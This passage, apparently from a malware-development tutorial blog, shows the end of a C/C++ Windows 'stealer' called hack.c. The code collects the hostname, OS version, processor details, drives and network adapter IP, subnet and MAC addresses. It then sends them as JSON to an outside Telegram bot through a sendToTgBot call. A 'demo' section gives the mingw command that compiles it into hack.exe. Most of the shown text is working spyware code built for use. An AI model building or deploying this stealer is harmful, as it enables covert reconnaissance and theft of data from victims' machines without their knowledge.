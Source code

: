 ```cpp
    hostName,
    osVersion.dwMajorVersion, osVersion.dwMinorVersion, osVersion.dwBuildNumber,
    sysInfo.wProcessorArchitecture,
    sysInfo.dwNumberOfProcessors,
    drives);

  // Add IP address information
  for (PIP_ADAPTER_INFO adapter = adapterInfo; adapter != NULL; adapter = adapter->Next) {
    snprintf(systemInfo + strlen(systemInfo), sizeof(systemInfo) - strlen(systemInfo),
    "Adapter Name: %s\n"
    "IP Address: %s\n"
    "Subnet Mask: %s\n"
    "MAC Address: %02X-%02X-%02X-%02X-%02X-%02X\n\n",
    adapter->AdapterName,
    adapter->IpAddressList.IpAddress.String,
    adapter->IpAddressList.IpMask.String,
    adapter->Address[0], adapter->Address[1], adapter->Address[2],
    adapter->Address[3], adapter->Address[4], adapter->Address[5]);
  }
  
  char info[8196];
  snprintf(info, sizeof(info), "{\"text\":\"%s\"}", systemInfo);
  int result = sendToTgBot(info);

  if (result == 0) {
    printf("ok =^..^=\n");
  } else {
    printf("nok <3()~\n");
  }

  return 0;
}
```

### demo

Let's check everything in action.     

Compile our "stealer" `hack.c`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings 
-fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -liphlpapi -lwinhttp
```
